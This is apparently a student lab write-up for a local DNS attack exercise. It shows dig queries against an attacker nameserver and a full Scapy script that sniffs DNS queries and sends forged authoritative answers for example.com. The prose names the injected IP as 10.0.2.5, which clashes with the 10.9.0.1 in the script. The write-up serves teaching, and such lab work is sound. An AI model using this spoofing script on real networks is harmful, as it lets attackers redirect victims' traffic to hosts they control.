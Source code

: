 # Local DNS Attack Lab

## 2.4 Testing the DNS Setup

```
$ dig ns.attacker32.com
```
![Screenshot 2025-05-17 124530](https://github.com/user-attachments/assets/9908283a-6417-4be0-a1af-c29fd41451be)

We can see that the answer comes from the attacker nameserver because the dig command only returns the attacker namerserver IP adress.

---

```
$ dig www.example.com
```
![image](https://github.com/user-attachments/assets/12389a65-8795-4317-b38a-425e35e15478)

When trying to access ``` www.example.com ``` the DNS nameserver used is not the malicious one.

---

```
$ dig @ns.attacker32.com www.example.com
```
![image](https://github.com/user-attachments/assets/95c05e42-6cfc-442d-a154-0d809fa0dacf)

If we explicitly ask the attacker nameserver, we get a different (and false) IP adress for ```www.example.com```


#### Our goal: Get the user to ask the malicious nameserver first.  
---

## 3.1 Directly Spoofing Response to User

This is the script we used to spoof the DNS packet.
``` python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
        if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
                print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

                ip = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Swap the source and destination IPs

                udp = UDP(dport=pkt[UDP].sport, sport=53) # Swap the source and destination ports

                # The Answer Section
                Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='10.9.0.1')

                # The Authority Section is not needed
                # The Additional Section is not needed

                # Create DNS object
                dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)

                spoofpkt = ip/udp/dns # Assemble the spoofed DNS packet
                send(spoofpkt)

myFilter = "udp and dst port 53" # only capture UDP traffic with destination port 53
pkt=sniff(iface='br-4a379a2ae130', filter=myFilter, prn=spoof_dns)
```

When we now execute ``` dig www.example.com ``` on the ``` user ``` machine, we see this:

![image](https://github.com/user-attachments/assets/393f7f25-df2c-4788-9a2b-f2476ae5434f)

The answer contains the IP adress we inserted (```10.0.2.5```) and our attacker nameserver (```ns.attacker32.com```).
